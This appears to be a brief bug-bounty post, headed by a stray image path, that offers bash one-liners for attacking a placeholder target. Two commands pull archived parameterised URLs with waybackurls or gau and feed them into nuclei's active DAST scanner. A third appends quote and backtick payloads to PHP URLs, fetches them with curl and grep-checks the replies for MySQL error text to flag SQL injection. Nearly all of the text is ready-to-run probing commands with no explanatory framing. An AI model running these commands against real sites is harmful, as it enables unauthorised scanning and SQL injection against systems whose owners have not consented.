 # Simple 1Line #BASH For #BugBounty.

```waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast```

```gau TARGET.COM | grep = | tee urls.txt | nuclei -dast```


# 1Line BASH To Perform #SQL_Injection For BugBounties.

```cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done```
